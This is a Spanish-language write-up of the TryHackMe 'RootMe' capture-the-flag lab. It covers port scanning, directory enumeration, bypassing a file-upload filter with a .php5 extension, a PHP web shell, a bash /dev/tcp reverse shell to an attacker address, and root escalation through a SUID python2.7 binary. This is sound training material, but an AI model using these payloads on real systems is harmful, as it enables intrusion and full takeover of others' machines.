# 🛡️ RootMe - TryHackMe Writeup



## Introducción

Este writeup documenta el proceso de compromiso de la máquina **RootMe** en TryHackMe.

Durante el laboratorio se realizaron tareas de reconocimiento, enumeración, explotación web mediante file upload, obtención de una reverse shell y escalada de privilegios hasta conseguir acceso como **root**.

---

## Reconocimiento

Se realizó un reconocimiento inicial del objetivo para identificar servicios expuestos y posibles vectores de entrada.

Como primer paso, se ejecutó un escaneo con **Nmap** para detectar puertos abiertos y servicios activos en la máquina objetivo.

```bash
nmap -sS -sV -O 10.128.172.51
```


A partir de los resultados obtenidos, se identificaron dos servicios principales expuestos:

- **SSH (puerto 22)**: utilizado para acceso remoto al sistema.
- **HTTP (puerto 80)**: servidor web Apache.

Dado que no se dispone de credenciales para el servicio SSH, el enfoque se centra en el servicio web, ya que suele ser un vector de ataque común en este tipo de escenarios.

Por lo tanto, se decide continuar con la enumeración del servidor HTTP en busca de directorios ocultos o funcionalidades vulnerables.


## Enumeración

Dado que el servicio HTTP se encuentra disponible, se procedió a realizar una enumeración de directorios utilizando Gobuster.

```bash
gobuster dir -u http://10.128.172.51 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Posteriormente, se realizó una enumeración más específica incluyendo extensiones comunes como **.php**, **.txt** y **.html**, con el objetivo de identificar archivos potencialmente sensibles en el servidor.

```bash
gobuster dir -u http://10.128.172.51 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php,txt,html
```


Este segundo escaneo permitió identificar archivos adicionales como **index.php**, así como confirmar la existencia de directorios previamente descubiertos como **/panel** y **/uploads**.

Estos directorios resultan especialmente interesantes:

- **/panel**: podría contener funcionalidades administrativas o formularios de entrada.
- **/uploads**: sugiere la posibilidad de carga de archivos, lo cual puede ser un vector de ataque potencial.

- Este tipo de funcionalidades representa un vector de ataque crítico en aplicaciones web, especialmente si no se implementan mecanismos adecuados de validación de archivos, como restricciones estrictas de extensiones, tipo MIME o contenido.

En escenarios vulnerables, un atacante puede aprovechar este comportamiento para subir archivos maliciosos, como web shells, con el objetivo de obtener ejecución remota de comandos en el servidor.

A partir de estos hallazgos, se decide enfocar la siguiente fase en la exploración del directorio **/panel**.


## Explotación

Una vez identificado el directorio `/panel`, se accedió a la funcionalidad de carga de archivos disponible en el sitio web.

El formulario permitía seleccionar y subir archivos al servidor, por lo que se evaluó si esta funcionalidad podía ser utilizada para obtener ejecución remota de código.



Como se puede observar, el panel permite la carga de archivos directamente al servidor.

Al intentar subir un archivo con extensión `.php`, el sistema bloqueó la operación, indicando la presencia de un mecanismo de validación que restringe este tipo de archivos.

Esto sugiere que la aplicación implementa un filtro basado en la extensión del archivo, probablemente mediante una lista negra que impide la subida de archivos `.php`.

Sin embargo, este tipo de validaciones suelen ser insuficientes si no se aplican de forma estricta. Por ello, se intentó evadir el filtro utilizando una variante de la extensión, renombrando el archivo a `.php5`.

Este tipo de bypass aprovecha configuraciones del servidor que interpretan extensiones alternativas como código PHP, permitiendo su ejecución en el servidor.

Se logró subir archivos con extensión **.txt** y **.php5**, los cuales fueron almacenados en el directorio `/uploads`.

A continuación, se muestra el contenido del directorio accesible desde el navegador:



El hecho de que los archivos subidos sean accesibles desde el navegador indica que el servidor permite servir directamente el contenido del directorio `/uploads`.

Esto indica que, si se logra subir un archivo ejecutable por el servidor (como un script PHP), podría ser posible obtener ejecución remota de código.

Para comprobar el comportamiento del servidor, se accedió directamente a uno de los archivos subidos.



Como se puede observar, el contenido del archivo **diego.txt** es mostrado directamente en el navegador.

Esto confirma que los archivos subidos no solo se almacenan en el servidor, sino que también son accesibles públicamente a través del navegador.

Este comportamiento es crítico, ya que indica que, si se logra subir un archivo ejecutable (como un script PHP), este podría ser interpretado por el servidor y permitir la ejecución de comandos.

Tras confirmar que los archivos subidos son accesibles desde el navegador, se procedió a crear y subir un archivo con extensión **.php5** que contenía código PHP para la ejecución de comandos.

El payload utilizado permite ejecutar comandos del sistema a través de parámetros en la URL:

```php
<?php system($_GET['cmd']); ?>
```

Este tipo de payload es ampliamente utilizado en pruebas de seguridad para obtener ejecución remota de comandos (RCE). Referencias como [PentestMonkey - PHP Reverse Shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
sirvieron como guía para la construcción del payload.



Una vez subido el archivo, se accedió al mismo desde el navegador utilizando el parámetro `cmd` para ejecutar comandos del sistema.



Como se puede observar, el servidor ejecuta el comando `id`, devolviendo información del usuario bajo el cual se ejecuta el servicio web (**www-data**).

Se ejecutaron comandos adicionales como `ls` y `pwd`, confirmando la capacidad de interacción con el sistema comprometido.

Tras lograr la ejecución remota de comandos, el siguiente objetivo fue obtener una shell interactiva en el sistema.

Para ello, se configuró un listener en la máquina atacante utilizando Netcat:

```bash
nc -lvnp 4444
```

Una vez configurado el listener, se utilizó un payload de reverse shell para establecer una conexión desde la máquina víctima hacia la máquina atacante.

El payload fue ejecutado a través del parámetro `cmd` en la web shell previamente subida:

```bash
http://10.128.172.51/uploads/shell.php5?cmd=bash -c 'bash -i >& /dev/tcp/10.128.118.127/4444 0>&1'
```
Este tipo de payload es ampliamente utilizado en pruebas de penetración y puede encontrarse en recursos como [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet).


(Debido a limitaciones de visualización, el payload completo no se aprecia en la barra de direcciones, pero se ejecuta correctamente.)

Este comando instruye al servidor a iniciar una conexión hacia la máquina atacante en el puerto 4444, proporcionando una shell interactiva.

Al ejecutarse correctamente, se obtiene acceso remoto al sistema comprometido desde la máquina atacante.

Una vez ejecutado el payload, se recibió una conexión entrante en el listener configurado previamente:



Como se puede observar, se establece una conexión desde la máquina víctima hacia la máquina atacante, obteniendo una shell como el usuario **www-data**.

Aunque la shell obtenida es básica (sin control total del terminal), permite ejecutar comandos directamente en el sistema comprometido.

Este tipo de shell es conocida como *non-interactive shell*, por lo que puede presentar limitaciones en su uso.


## Privilege Escalation

Una vez obtenida una shell como el usuario **www-data**, el siguiente objetivo fue escalar privilegios para obtener acceso como **root**.

Para ello, se buscaron archivos con permisos SUID en el sistema.

```bash
find / -perm -4000 -type f 2>/dev/null
```


Este comando permite identificar archivos con el bit SUID activado, lo que implica que se ejecutan con los privilegios del propietario del archivo.

Entre los resultados obtenidos, destaca el binario **/usr/bin/python2.7**, el cual resulta inusual y potencialmente explotable para escalar privilegios.

Tras identificar que el binario **/usr/bin/python2.7** posee permisos SUID, se procedió a explotarlo para escalar privilegios. La presencia de este binario con permisos SUID representa un riesgo crítico, ya que permite ejecutar código con privilegios elevados.

Se utilizó el siguiente comando para obtener una shell con privilegios de root:

```bash
python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Este método se basa en técnicas documentadas en recursos como [GTFOBins](https://gtfobins.github.io/gtfobins/python/), donde se detallan formas de explotar binarios con permisos elevados.



Como resultado, se obtiene una shell con privilegios de **root**, lo cual se verifica mediante los comandos `whoami` e `id`.

Esto confirma que se ha logrado comprometer completamente el sistema.

Finalmente, tras obtener acceso como **root**, se procedió a buscar la flag final del sistema.

```bash
cd /root
ls
cat root.txt
```




## 🧠 Conclusión

Durante este laboratorio se llevó a cabo un proceso completo de pentesting sobre la máquina **RootMe**, comenzando con tareas de reconocimiento y enumeración, donde se identificaron servicios clave y posibles vectores de ataque.

A través de la enumeración web, se descubrió un panel de subida de archivos vulnerable, el cual permitió la carga de archivos al servidor. Mediante técnicas de bypass de restricciones, se logró subir una web shell y obtener ejecución remota de comandos.

Posteriormente, se estableció una reverse shell, obteniendo acceso al sistema como el usuario **www-data**. Finalmente, mediante la enumeración de archivos con permisos SUID, se identificó un binario vulnerable (**python2.7**) que permitió escalar privilegios hasta obtener acceso como **root**.

Este laboratorio demuestra la importancia de una correcta validación de archivos en aplicaciones web, así como los riesgos asociados a configuraciones inseguras en el sistema, como la presencia de binarios con permisos elevados.

El compromiso completo del sistema evidencia cómo múltiples vulnerabilidades encadenadas pueden ser explotadas para obtener control total de una máquina.


## Lecciones aprendidas

- Importancia de la enumeración en cada fase del ataque
- Riesgos de funcionalidades de subida de archivos sin validación adecuada
- Uso de web shells para obtener ejecución remota de comandos
- Identificación y explotación de binarios con permisos SUID


